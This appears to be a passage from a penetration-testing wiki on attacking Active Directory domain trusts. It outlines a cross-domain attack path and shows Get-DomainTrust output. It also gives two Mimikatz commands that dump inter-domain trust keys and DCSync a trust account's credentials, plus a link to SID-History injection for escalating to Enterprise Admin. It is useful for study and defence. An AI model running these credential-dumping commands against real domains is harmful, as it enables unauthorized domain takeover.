* **MIT** – a trust with a non-Windows [RFC4120-compliant](https://tools.ietf.org/html/rfc4120) Kerberos domain. I hope to dive more into MIT trusts in the future.

### Attack Path

1. **Enumerate** the trusting relationships
2. Check if any **security principal** (user/group/computer) has **access** to resources of the **other domain**, maybe by ACE entries or by being in groups of the other domain. Look for **relationships across domains** (the trust was created for this probably).
   1. kerberoast in this case could be another option.
3. **Compromise** the **accounts** which can **pivot** through domains.

There are three **main** ways that security principals (users/groups/computer) from one domain can have access into resources in another foreign/trusting domain:

* They can be added to **local groups** on individual machines, i.e. the local “Administrators” group on a server.
* They can be added to **groups in the foreign domain**. There are some caveats depending on trust type and group scope, described shortly.
* They can be added as principals in an **access control list**, most interesting for us as principals in **ACEs** in a **DACL**. For more background on ACLs/DACLs/ACEs, check out the “[An ACE Up The Sleeve](https://specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf)” whitepaper.

### Child-to-Parent forest privilege escalation

```
Get-DomainTrust

SourceName      : sub.domain.local    --> current domain
TargetName      : domain.local        --> foreign domain
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST       --> WITHIN_FOREST: Both in the same forest
TrustDirection  : Bidirectional       --> Trust direction (2ways in this case)
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```

{% hint style="warning" %}
There are **2 trusted keys**, one for _Child --> Parent_ and another one for _Parent_ --> _Child_.\
You can the one used by the current domain them with:

```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```
{% endhint %}

#### SID-History Injection

Escalate as Enterprise admin to the child/parent domain abusing the trust with SID-History injection:

{% content-ref url="sid-history-injection.md" %}
[sid-history-injection.md](sid-history-injection.md)
{% endcontent-ref %}
